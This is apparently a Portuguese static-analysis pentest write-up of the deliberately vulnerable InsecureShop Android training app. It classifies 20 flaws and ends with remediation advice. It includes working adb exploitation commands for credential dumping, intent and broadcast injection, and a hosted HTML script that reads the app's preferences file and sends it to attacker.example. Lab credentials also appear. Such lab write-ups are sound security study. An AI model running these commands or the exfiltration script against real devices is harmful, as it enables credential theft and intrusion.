







# Writeup — Pentest Estático do InsecureShop (com.insecureshop)

**Alvo:** `InsecureShop.apk` (package `com.insecureshop`, versionCode 1, versionName 1.0, compileSdk 29, targetSdk 29)
**Tipo de engajamento:** Estudo pessoal de técnicas de pentest mobile, em laboratório próprio, contra aplicativo **deliberadamente vulnerável** (InsecureShop — plataforma pública de treino, docs.insecureshopapp.com)
**Data:** 2026-10-04
**Analista:** Sandro Melo (sandromelo.sec@gmail.com)
**Ambiente:** Kali Linux, sem device/emulador Android conectado → **análise 100% estática** (decompilação + revisão de código).
**Frameworks de referência:** OWASP MASVS v2 · OWASP MASTG · OWASP MASWE · MITRE ATT&CK for Mobile · CWE · CVSS v3.1 · NIST SP 800-163 (processo, onde aplicável)

> ⚠️ Este documento descreve vulnerabilidades reais e comandos de exploração funcionais. Válido apenas contra o APK de treino `InsecureShop`, de propriedade do analista, em ambiente controlado. Não utilize estas técnicas contra sistemas sem autorização explícita.

---

## Sumário Executivo

A análise estática do InsecureShop (51 arquivos Java/Kotlin próprios, manifest, recursos e smali) identificou **20 problemas de segurança**, sendo **8 CRÍTICOS** (classificação qualitativa de impacto), **5 ALTOS**, **4 MÉDIOS** e **3 INFORMATIVOS**. Cada um foi reclassificado formalmente com **CWE**, categoria **OWASP MASVS**, weakness **OWASP MASWE**, técnica **MITRE ATT&CK for Mobile** e **CVSS v3.1** (vetor completo calculado manualmente — ver nota metodológica na seção 4).

O trabalho foi dividido em **9 agentes paralelos**, cada um responsável por um subsistema disjunto do app, e consolidado neste documento.

---

## 1. Metodologia e Ambiente

### 1.1 Ferramentas e comandos de reconhecimento de ambiente

| # | Comando | Opções/flags | Finalidade |
|---|---------|------|------------|
| 1 | `whoami && id` | — | Confirmar usuário/grupos atuais (sem root, grupo `sudo` presente) |
| 2 | `command -v adb jadx apktool frida objection ...` | `-v` lista o caminho do binário se existir | Inventariar quais ferramentas de pentest mobile já estavam instaladas |
| 3 | `adb devices` | — | Verificar device/emulador conectado → **nenhum encontrado** |
| 4 | `emulator -list-avds` | `-list-avds` lista AVDs criados | Verificar emulador Android Studio configurado → **nenhum binário `emulator`** |
| 5 | `sudo -n true` | `-n` = non-interactive (falha em vez de pedir senha) | Testar sudo sem senha |
| 6 | `sudo -l` | `-l` lista permissões sudo do usuário | Diagnosticar conflito de regras `sudoers` (`NOPASSWD: ALL` seguida de `ALL` sem NOPASSWD — a última regra "ganha") |
| 7 | `apt-cache search/policy <pkg>` | `search` busca por nome/descrição; `policy` mostra versão candidata vs. instalada | Confirmar nomes exatos de pacotes antes de instalar |
| 8 | `pip3 show frida-tools / objection` | `show` exibe metadados do pacote instalado | Checar se já existiam via pip global → não |
| 9 | `pipx install frida-tools` / `pipx install objection` | `pipx` instala em venv isolado por usuário, sem precisar de `sudo` | Preparar as ferramentas dinâmicas para quando houver device — **instaladas com sucesso** |

**Resultado do inventário:** `jadx`, `apktool`, `aapt`/`aapt2`, `java`, `python3`, `pip3`, `pipx`, `keytool` já presentes. Faltando via apt: `adb`, `apksigner`, `zipalign`, `android-sdk-build-tools` (comando entregue ao usuário para rodar com seu próprio `sudo`). `frida-tools`/`objection` instalados via `pipx` sem necessidade de root.

**Limitação assumida:** sem device/emulador, todas as seções de exploração abaixo foram **documentadas e prontas para execução**, validadas byte-a-byte contra o smali, mas não testadas em runtime nesta sessão.

### 1.2 Extração e decompilação

| # | Comando | Opções | Finalidade |
|---|---------|--------|------------|
| 10 | `aapt dump badging InsecureShop.apk` | `dump badging` extrai manifest/metadados sem descompactar | Package name, SDKs, permissões, `application-debuggable` |
| 11 | `aapt dump permissions InsecureShop.apk` | `dump permissions` | Listar `<uses-permission>`/`<permission>` |
| 12 | `jadx -d <outdir> InsecureShop.apk` | `-d` define o diretório de saída | Decompilar DEX → Java legível |
| 13 | `apktool d -f -o <outdir> InsecureShop.apk` | `d`=decode, `-f`=force, `-o`=saída | Manifest legível, recursos e **smali** |

Saída: `jadx exit 3` (11 erros não-críticos, todos em libs de terceiros; pacote próprio `com.insecureshop` decompilou sem erro). `apktool exit 0`.

### 1.3 Divisão do trabalho (9 agentes paralelos)

| Agente | Subsistema | Achados |
|---|---|---|
| 1 | Exported Activities / Intent Redirection | 4 |
| 2 | WebView & Deep Links | 4 |
| 3 | Content Providers & File Access | 3 |
| 4 | Broadcast Receivers & Services | 4 |
| 5 | Auth, Sessão & Storage Local | 4 |
| 6 | Lógica de Negócio (Produtos/Carrinho) | 1 + evidências negativas |
| 7 | Scan Global Secrets/Crypto/Network | 3 |
| 8 | Smali Cross-check & Runbook de Exploração | Confirmação byte-a-byte + runbook |
| 9 | Cross-check com Writeups Públicos | 19 desafios oficiais confirmados |

### 1.4 Alinhamento com NIST SP 800-163 (Vetting the Security of Mobile Applications)

O NIST SP 800-163 descreve um processo de vetting em 4 fases (não possui controles numerados como o MASVS — é um framework de **processo**, usado aqui como referência complementar de estrutura):

| Fase NIST SP 800-163 | Equivalente neste engajamento |
|---|---|
| **Requirements** — definir a baseline de requisitos de segurança | OWASP MASVS v2 adotado como baseline de controles (seção 3) |
| **App Testing** — um ou mais *Analyzers* testam o app contra a baseline | 9 agentes paralelos (seção 1.3), cada um como um "Analyzer" independente sobre um subsistema |
| **Risk Reporting** — resultados reportados com classificação de risco | Catálogo consolidado (seção 3) com CVSS v3.1 por achado |
| **Risk Response/Approval** — decisão de aceitar, mitigar ou rejeitar | Recomendações priorizadas (seção 7) |

---

## 2. Detalhamento Completo do `AndroidManifest.xml`

```xml
<manifest package="com.insecureshop" platformBuildVersionCode="29" platformBuildVersionName="10">
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_CONTACTS"/>
    <permission android:name="com.insecureshop.permission.READ"/>
    <uses-permission android:name="android.permission.WAKE_LOCK"/>
    <application android:allowBackup="true" android:debuggable="true"
                  android:usesCleartextTraffic="true" ...>
        ...
    </application>
</manifest>
```

| # | Elemento / Atributo | Problema | Severidade | ID |
|---|---|---|---|---|
| M1 | `<permission .../>` sem `protectionLevel` | Default `normal` → qualquer app declara `<uses-permission>` igual e ganha a permissão automaticamente. | Critical | V03 |
| M2 | `allowBackup="true"` | Permite `adb backup` extrair todo o sandbox sem root. | High | V10 |
| M3 | `debuggable="true"` | Permite `run-as` ler qualquer arquivo do sandbox sem root. | High | V10/V18 |
| M4 | `usesCleartextTraffic="true"` | Sem `network_security_config` — nenhuma allow-list de domínio. | Medium | V17 |
| M5 | `READ_CONTACTS` | Declarada, sem uso aparente nos 51 arquivos revisados. | Info | V20 |
| M6 | `ChooserActivity` (intent-filter, sem `exported`) | Exportada por padrão (targetSdk 29). Escreve arquivo com nome não sanitizado. | Medium | V16 |
| M7 | `AboutUsActivity exported="true"` | Único ponto de entrada da UI para o broadcast de credenciais. | Critical | V08 |
| M8 | `CartListActivity` (sem intent-filter) | Não exportada por padrão — contraste correto, sem achado. | — | — |
| M9 | `ProductListActivity` MAIN/LAUNCHER | Correto e necessário. | — | — |
| M10 | `LoginActivity` (não exportada) | Vulnerabilidade na lógica interna (RCE, credencial hardcoded), não na exposição. | — | — |
| M11 | `WebViewActivity` (scheme `insecureshop`) | Exportada por padrão. Deep link sem validação / validação quebrada. | Critical | V05 |
| M12 | `WebView2Activity` (action custom) | Exportada por padrão. 3 sinks `loadUrl` + Intent Redirection. | Critical | V06/V07 |
| M13 | `PrivateActivity exported="false"` | Alvo que o Intent Redirection de V07 alcança indevidamente. | Critical | V07 |
| M14 | `SendingDataViaActionActivity` | Não exportada — demonstra o parâmetro consumido por V06. | Info | — |
| M15 | `ResultActivity exported="true"` | Código morto, só ecoa `setResult(-1, getIntent())`. | Medium | V15 |
| M16 | `<provider ... com.insecureshop.provider>` | `query()` devolve usuário/senha em claro. | Critical | V03 |
| M17 | `<provider ... file_provider>` + `root-path path="/"` | Escopo máximo de path — anti-padrão conhecido. | Medium | V14 |
| M18 | `UploadService exported="true"` | Lib de terceiros não utilizada, exportada sem permissão. | High | V12 |

**Nota:** os receivers mais relevantes (`CustomReceiver`, `ProductDetailBroadCast` — V11/V13) **não aparecem no manifest**; são registrados dinamicamente. Só a revisão de código os revelou.

---

## 3. Catálogo Consolidado de Vulnerabilidades (CWE · MASVS · MASWE · ATT&CK · CVSS)

> **Nota metodológica sobre CVSS:** o InsecureShop não possui CVE/score oficial (é um app de treino, não um produto com vulnerabilidade reportada ao NVD). Os vetores e scores abaixo foram **calculados manualmente** pelo analista seguindo a fórmula oficial CVSS v3.1 (Base Score), aplicada com julgamento próprio sobre cada métrica — não são scores publicados por terceiros. Vale notar a **tensão conhecida entre CVSS e severidade qualitativa**: `AV:Local` (exigir um app atacante co-instalado) reduz bastante o score mesmo quando o impacto de negócio é total — por isso vários achados "Critical" na classificação qualitativa (que pesa facilidade de weaponização e impacto de negócio) aparecem como "Medium/High" em CVSS puro. Isso é esperado e documentado na literatura de segurança mobile.

| ID | Sev. Qualitativa | CWE | MASVS | MASWE | MITRE ATT&CK (Mobile) | CVSS v3.1 (vetor) | Score |
|----|:--:|---|---|---|---|---|:--:|
| V01 | 🔴 Critical | CWE-798 (Hard-coded Credentials) | MASVS-STORAGE | MASWE-0004 | T1634 | `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N` | **6.8** (Medium) |
| V02 | 🔴 Critical | CWE-470 (Unsafe Reflection) | MASVS-CODE | MASWE-0049 | T1407, T1655.001 | `AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H` | **7.8** (High) |
| V03 | 🔴 Critical | CWE-926, CWE-200 | MASVS-AUTH | MASWE-0018 | T1409, T1428 | `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **6.2** (Medium) |
| V04 | 🔴 Critical | CWE-295 (Improper Cert. Validation) | MASVS-NETWORK | MASWE-0027 | T1638 | `AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` | **8.1** (High) |
| V05 | 🔴 Critical | CWE-940, CWE-200 | MASVS-PLATFORM | MASWE-0029, MASWE-0035 | T1456, T1533 | `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:L/A:N` | **7.1** (High) |
| V06 | 🔴 Critical | CWE-940 | MASVS-PLATFORM | MASWE-0032, MASWE-0034 | T1456, T1533 | `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:L/A:N` | **7.1** (High) |
| V07 | 🔴 Critical | CWE-441 (Confused Deputy), CWE-926 | MASVS-PLATFORM | MASWE-0032 | T1428 | `AV:L/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:N` | **6.6** (Medium) |
| V08 | 🔴 Critical | CWE-927, CWE-200 | MASVS-PLATFORM | MASWE-0018, MASWE-0032 | T1624.001, T1646 | `AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N` | **5.5** (Medium) |
| V09 | 🟠 High | CWE-532 (Sensitive Info in Log) | MASVS-STORAGE | MASWE-0005 | T1417 | `AV:P/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **4.6** (Medium) |
| V10 | 🟠 High | CWE-312, CWE-530 | MASVS-STORAGE | MASWE-0001 | T1409 | `AV:P/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **4.6** (Medium) |
| V11 | 🟠 High | CWE-925 (Improper Verif. of Intent by Broadcast Receiver) | MASVS-AUTH | MASWE-0018 | T1624.001, T1456 | `AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:L/A:N` | **6.1** (Medium) |
| V12 | 🟠 High | CWE-926, CWE-1104 | MASVS-AUTH/CODE | MASWE-0018, MASWE-0044 | T1428 | `AV:L/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:L` | **5.1** (Medium) |
| V13 | 🟠 High | CWE-925 | MASVS-AUTH | MASWE-0018 | T1624.001, T1456 | `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N` | **6.8** (Medium) |
| V14 | 🟡 Medium | CWE-552 | MASVS-PLATFORM | (categoria confirmada; ID específico não confirmado) | T1533 (latente) | — | **N/A** — risco de config. sem sink demonstrado |
| V15 | 🟡 Medium | CWE-926 | MASVS-AUTH | MASWE-0018 | T1428 | `AV:L/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N` | **4.0** (Medium-baixo) |
| V16 | 🟡 Medium | CWE-22 (Path Traversal) | MASVS-CODE | MASWE-0050 | T1655 | `AV:L/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:L` | **6.1** (Medium) |
| V17 | 🟡 Medium | CWE-319 (Cleartext Transmission) | MASVS-NETWORK | MASWE-0026 | T1638, T1646 | `AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N` | **7.1** (High) |
| V18 | ⚪ Info | CWE-489 (Active Debug Code) | MASVS-CODE | (config. de build) | — | — | **N/A** — habilitador de V09/V10 |
| V19 | ⚪ Info | CWE-926 | MASVS-AUTH | MASWE-0018 | — | — | **N/A** — código morto, sem superfície real |
| V20 | ⚪ Info | CWE-250 (Unnecessary Privileges) | MASVS-PRIVACY | MASWE-0066 | — | — | **N/A** — menor privilégio violado, sem vetor demonstrado |

### 3.1 Cobertura vs. lista oficial dos 19 desafios (docs.insecureshopapp.com)

Cobrimos **18 das 19** vulnerabilidades oficiais de forma independente via revisão de código. **Gap:** *"AWS Cognito Misconfiguration"* não foi encontrado nos 51 arquivos Java revisados nem no scan global — possivelmente requer interceptação de tráfego de rede (fora do escopo estático).

---

## 4. Cadeias de Exploração — Etapas, Frameworks e Comandos

> **Como ler os diagramas abaixo:** cada cadeia é representada em 4 etapas genéricas (Pré-condição → Ação do Atacante → Falha Explorada → Resultado), com as tags de **CWE**, **MASWE** e **MITRE ATT&CK** anotadas diretamente nos nós relevantes. A tabela de classificação abaixo de cada diagrama consolida CWE + MASVS + MASWE + MASTG + ATT&CK + CVSS para os achados daquela cadeia (ver seção 3 para os vetores completos).

### 4.1 Cadeia A — Roubo de Credenciais (V01, V03, V08, V09, V10)



**Comandos:**
```bash
# V09 — capturar credenciais do Logcat durante o login
adb logcat | grep -E "userName|password"
#   `logcat` sem filtro de app porque debuggable=true expõe os logs; grep -E = regex estendida.

# V03 — extrair credenciais direto do Content Provider exportado
adb shell content query --uri content://com.insecureshop.provider/insecure
#   `content query` lê ContentProviders; --uri aponta a authority+path exatos.

# V08 — abrir a tela que dispara o broadcast de credenciais
adb shell am start -n com.insecureshop/.AboutUsActivity
#   `am start -n` lança uma Activity por nome de componente explícito.

# V10 — extração do storage em claro, duas vias
adb shell run-as com.insecureshop cat /data/data/com.insecureshop/shared_prefs/Prefs.xml
#   `run-as <pkg>` só funciona com debuggable=true; lê com o UID do app, sem root.
adb backup -f shop.ab com.insecureshop
#   `backup -f <arquivo>` só funciona com allowBackup=true; gera .ab do sandbox completo.
```

**Classificação:** CWE-798/CWE-312/CWE-532 · MASVS-STORAGE/MASVS-AUTH · MASWE-0001/0004/0005/0018 · **MASTG** — Testing Data Storage, Testing Logs for Sensitive Data, Testing Content Provider Security · **ATT&CK** T1409/T1634/T1417/T1624.001 · **CVSS** 4.6 – 6.8 (ver seção 3)

---

### 4.2 Cadeia B — WebView / Roubo de Arquivo Local (V04, V05, V06)



**Comandos:**
```bash
# V05 — path "/web" sem validação alguma
adb shell am start -a android.intent.action.VIEW \
  -d "insecureshop://com.insecureshop/web?url=https://attacker.example/evil.html"

# V05 (bypass do endsWith() no path "/webview")
adb shell am start -a android.intent.action.VIEW \
  -d "insecureshop://com.insecureshop/webview?url=https://evilinsecureshopapp.com/evil.html"
#   "evilinsecureshopapp.com".endsWith("insecureshopapp.com") == true -> bypass trivial.

# V06 — WebView2Activity, sem allow-list nenhum
adb shell am start -a com.insecureshop.action.WEBVIEW --es url "https://attacker.example/evil.html"
#   --es define extra String "url"; -a usa a action custom do manifest.
```
`evil.html` hospedado pelo atacante:
```html
<script>
fetch('file:///data/data/com.insecureshop/shared_prefs/Prefs.xml')
  .then(r => r.text())
  .then(t => fetch('https://attacker.example/exfil?d=' + encodeURIComponent(t)));
</script>
```

**Classificação:** CWE-295/CWE-940/CWE-200 · MASVS-NETWORK/MASVS-PLATFORM · MASWE-0027/0029/0034/0035 · **MASTG** — Testing Custom Certificate Verification, Testing WebView/Deep Link Configuration · **ATT&CK** T1456/T1638/T1533/T1646 · **CVSS** 7.1 – 8.1 (High)

---

### 4.3 Cadeia C — Intent Redirection → Componente Protegido (V07)



**Comandos (requer app companheiro — Parcelable não é montável via CLI `am`):**
```java
Intent redirect = new Intent();
redirect.setComponent(new ComponentName("com.insecureshop", "com.insecureshop.PrivateActivity"));
Intent trigger = new Intent();
trigger.setClassName("com.insecureshop", "com.insecureshop.WebView2Activity");
trigger.putExtra("extra_intent", redirect);
startActivity(trigger);
```
```bash
adb shell pm dump com.insecureshop | grep -A2 PrivateActivity
#   `pm dump` confirma exported=false de PrivateActivity direto no device.
```

**Classificação:** CWE-441/CWE-926 · MASVS-PLATFORM · MASWE-0032 · **MASTG** — Testing for Sensitive Functionality Exposure Through IPC · **ATT&CK** T1428 · **CVSS** 6.6 (Medium, `S:C`)

---

### 4.4 Cadeia D — Execução de Código Arbitrário via Reflection (V02)



**Comandos (PoC completo):**
```bash
# 1. Projeto mínimo, applicationId "com.insecureshopapp.poc":
#    public class MainInterface { public static Object getInstance(Context ctx) { ... } }
adb install poc.apk
#   `install` registra o APK no PackageManager.
adb shell am start -n com.insecureshop/.LoginActivity
#   Abre a tela de login direto (-n = componente explícito).
adb logcat -s object_value
#   -s <tag> filtra o logcat para a tag usada pelo InsecureShop, confirmando a execução.
```

**Classificação:** CWE-470 · MASVS-CODE · MASWE-0049 · **MASTG** — Testing Dynamic Code Loading · **ATT&CK** T1407, T1655.001 · **CVSS** 7.8 (High)

---

### 4.5 Cadeia E — Broadcast Injection → WebView (V11, V13)



**Comandos:**
```bash
# V11 — injetar URL arbitrária (requer AboutUsActivity em foreground)
adb shell am broadcast -a com.insecureshop.CUSTOM_INTENT --es web_url "https://attacker.example/phish"

# V13 — forjar broadcast de detalhe de produto com URL maliciosa
adb shell am broadcast -a com.insecureshop.action.PRODUCT_DETAIL \
  --es url "file:///data/data/com.insecureshop/shared_prefs/Prefs.xml"
```

**Classificação:** CWE-925 · MASVS-AUTH · MASWE-0018, MASWE-0032 · **MASTG** — Testing Broadcast Receivers · **ATT&CK** T1624.001, T1456 · **CVSS** 6.1 – 6.8 (Medium)

---

### 4.6 Cadeia F — Abuso de Serviço Exportado (V12)



**Comando:**
```bash
adb shell am startservice -n com.insecureshop/net.gotev.uploadservice.UploadService \
  -a net.gotev.uploadservice.action.upload \
  --es taskClass "net.gotev.uploadservice.BinaryUploadTask"
```

**Classificação:** CWE-926, CWE-1104 · MASVS-AUTH/CODE · MASWE-0018, MASWE-0044 · **MASTG** — Testing Exported Services, Third-Party Libraries · **ATT&CK** T1428 · **CVSS** 5.1 (Medium)

---

### 4.7 Cadeia G — Path Traversal em Escrita de Arquivo (V16)



**Comando:**
```bash
adb shell am start -a android.intent.action.SEND \
  --eu android.intent.extra.STREAM content://attacker.provider/payload \
  -t text/plain -n com.insecureshop/.ChooserActivity
```

**Classificação:** CWE-22 · MASVS-CODE · MASWE-0050 · **MASTG** — Testing for Injection Flaws · **ATT&CK** T1655 · **CVSS** 6.1 (Medium)

---

## 5. Runbook Consolidado (todos os comandos de exploração, em ordem de execução)

```bash
# ── Passo 0 — instalar e validar superfície em runtime ──
adb install InsecureShop.apk
adb shell pm dump com.insecureshop | less

# ── Passo 1 — login (V01) ──
# Usuário: shopuser · Senha: !ns3csh0p

# ── Passo 2 — Activities exportadas direto ──
adb shell am start -n com.insecureshop/.AboutUsActivity
adb shell am start -n com.insecureshop/.ResultActivity
adb shell am start -n com.insecureshop/.ChooserActivity -a android.intent.action.SEND -t "text/plain"

# ── Passo 3 — WebViewActivity via deep link (V04 + V05) ──
adb shell am start -a android.intent.action.VIEW \
  -d "insecureshop://com.insecureshop/web?url=https://attacker.example/payload.html"

# ── Passo 4 — WebView2Activity via action custom (V06) ──
adb shell am start -a com.insecureshop.action.WEBVIEW --es url "https://attacker.example/payload.html"

# ── Passo 5 — Content Provider exportado (V03) ──
adb shell content query --uri content://com.insecureshop.provider/insecure

# ── Passo 6 — Serviço de upload exportado (V12) ──
adb shell am startservice -n com.insecureshop/net.gotev.uploadservice.UploadService

# ── Passo 7 — dump do sandbox via debuggable=true (V09, V10) ──
adb shell run-as com.insecureshop ls -la /data/data/com.insecureshop/shared_prefs/
adb shell run-as com.insecureshop cat /data/data/com.insecureshop/shared_prefs/Prefs.xml
adb logcat | grep -E "userName|password"

# ── Passo 8 — extração via backup (V10) ──
adb backup -f insecureshop_backup.ab com.insecureshop
dd if=insecureshop_backup.ab bs=1 skip=24 | \
  python3 -c "import zlib,sys;sys.stdout.buffer.write(zlib.decompress(sys.stdin.buffer.read()))" | \
  tar -xf -
cat apps/com.insecureshop/sp/Prefs.xml

# ── Passo 9 — RCE via createPackageContext (V02) — requer app companheiro ──
adb install poc.apk
adb shell am start -n com.insecureshop/.LoginActivity
adb logcat -s object_value

# ── Passo 10 — broadcasts forjados (V08, V11, V13) ──
adb shell am broadcast -a com.insecureshop.action.BROADCAST
adb shell am broadcast -a com.insecureshop.CUSTOM_INTENT --es web_url "https://attacker.example/phish"
adb shell am broadcast -a com.insecureshop.action.PRODUCT_DETAIL --es url "file:///data/data/com.insecureshop/shared_prefs/Prefs.xml"
```

---

## 6. Tabelas de Esforço — Atividades, Tokens e Custo

### 6.1 Por agente (modelo: Claude Sonnet 5 — `claude-sonnet-5`)

> **Importante:** a telemetria disponível dá o **total de tokens** por agente (entrada+saída somados), sem a divisão exata. Para converter em R$/US$ foi assumida uma proporção 90% entrada / 10% saída, gerando taxa combinada de **US$ 2,80/MTok**. Valores abaixo são **estimativas**, não faturamento exato. Tokens do orquestrador principal (esta conversa) não são medidos de forma cumulativa confiável pela ferramenta disponível e **não estão incluídos**. Preços oficiais Sonnet 5: US$ 2,00/MTok entrada · US$ 10,00/MTok saída. Câmbio: US$ 1,00 = R$ 5,2158.

| # | Atividade (agente) | Tool calls | Duração | Tokens totais | US$ (est.) | R$ (est.) |
|---|---|---:|---:|---:|---:|---:|
| 1 | Exported Activities & Intent Redirection | 15 | 182,8 s | 123.448 | $0,346 | R$ 1,80 |
| 2 | WebView & Deep Links | 5 | 93,2 s | 110.892 | $0,310 | R$ 1,62 |
| 3 | Content Providers & File Access | 5 | 73,2 s | 115.045 | $0,322 | R$ 1,68 |
| 4 | Broadcast Receivers & Services | 6 | 90,0 s | 112.864 | $0,316 | R$ 1,65 |
| 5 | Auth, Sessão & Storage Local | 6 | 69,5 s | 115.001 | $0,322 | R$ 1,68 |
| 6 | Lógica de Negócio (Produtos/Carrinho) | 7 | 61,5 s | 120.506 | $0,337 | R$ 1,76 |
| 7 | Scan Global Secrets/Crypto/Network | 6 | 87,9 s | 115.033 | $0,322 | R$ 1,68 |
| 8 | Smali Cross-check & Runbook de PoC | 6 | 133,6 s | 130.902 | $0,367 | R$ 1,91 |
| 9 | Cross-check Writeups Públicos | 6 | 68,6 s | 105.609 | $0,296 | R$ 1,54 |
| | **Total (9 agentes paralelos)** | **62** | **~860 s de CPU-agente*** | **1.049.300** | **$2,94** | **R$ 15,33** |

*\*Soma da duração de cada agente — como rodaram em paralelo, o tempo de parede real foi de ~3 minutos.*

### 6.2 Por fase do engajamento

| Fase | Descrição | Tokens (estimado) | US$ (est.) | R$ (est.) |
|---|---|---:|---:|---:|
| Setup de ambiente | Recon de ferramentas, sudo, instalação pipx | não medido pela API (só shell) | — | — |
| Decompilação | `aapt`, `jadx`, `apktool` | não medido pela API (só shell) | — | — |
| Análise paralela (9 agentes) | Ver tabela 6.1 | 1.049.300 | $2,94 | R$ 15,33 |
| Consolidação do writeup + reclassificação CWE/MASVS/MASWE/CVSS | Orquestrador principal (leitura dos 9 relatórios, pesquisa MITRE/OWASP/CWE, cálculo CVSS, redação) | não medido de forma cumulativa pela ferramenta disponível | não calculável com confiança | não calculável com confiança |
| **Total mensurável** | | **≥ 1.049.300** | **≥ $2,94** | **≥ R$ 15,33** |

---

## 7. Recomendações Priorizadas

| Prioridade | Ação | Resolve |
|---|---|---|
| 1 | Remover client-side auth; autenticar contra backend real sobre TLS | V01, V02 |
| 1 | Remover o branch de `createPackageContext`+reflection por completo | V02 |
| 1 | `android:protectionLevel="signature"` na permission custom; nunca devolver senha via Provider | V03 |
| 1 | Remover `onReceivedSslError` override; corrigir `endsWith` → `getHost().equals()`; desabilitar acesso universal a arquivos | V04, V05, V06 |
| 1 | Nunca repassar `Intent` externo a `startActivity()` sem resolver internamente | V07 |
| 2 | Remover broadcasts globais de credenciais; `LocalBroadcastManager` ou permission `signature` | V08, V11, V13 |
| 2 | `allowBackup="false"`, `debuggable="false"` em release | V09, V10, V18 |
| 2 | `exported="false"` no `UploadService` (ou remover dependência não usada) | V12 |
| 3 | Restringir `provider_paths.xml` a diretórios específicos | V14 |
| 3 | `exported="false"` em `ResultActivity`; sanitizar `_display_name` | V15, V16 |
| 3 | `networkSecurityConfig` restringindo cleartext | V17 |
| 4 | Remover permissão `READ_CONTACTS` não utilizada | V20 |

---

## 8. Referências

- [docs.insecureshopapp.com](https://docs.insecureshopapp.com/) · [OWASP MASVS](https://mas.owasp.org/MASVS/) · [OWASP MASTG](https://mas.owasp.org/MASTG/) · [OWASP MASWE](https://mas.owasp.org/MASWE/) · [MITRE ATT&CK for Mobile](https://attack.mitre.org/matrices/mobile/) · [MITRE CWE](https://cwe.mitre.org/) · [FIRST CVSS v3.1](https://www.first.org/cvss/v3-1/specification-document) · [NIST SP 800-163 Rev.1](https://csrc.nist.gov/pubs/sp/800/163/r1/final)
- [InsecureShop Write-up — erev0s.com](https://erev0s.com/blog/insecureshop-write-up-all-vulnerabilities-explained/) · [Exploiting content providers via SetResult — erev0s.com](https://erev0s.com/blog/exploiting-content-providers-through-an-insecure-setresult-implementation/) · [AWS Cognito Misconfigurations — erev0s.com](https://erev0s.com/blog/aws-cognito-misconfigurations-in-android-apps/)
- Repositórios: [github.com/optiv/insecureshop](https://github.com/optiv/insecureshop), [github.com/spikedemolab/InsecureShop](https://github.com/spikedemolab/InsecureShop)
- Relatórios individuais: `findings/01_exported_activities.md` … `findings/09_known_writeups_crosscheck.md` (mesma pasta deste writeup)

---

*Documento gerado em 2026-10-04 como parte de estudo pessoal de pentest mobile em ambiente controlado. Analista: Sandro Melo.*
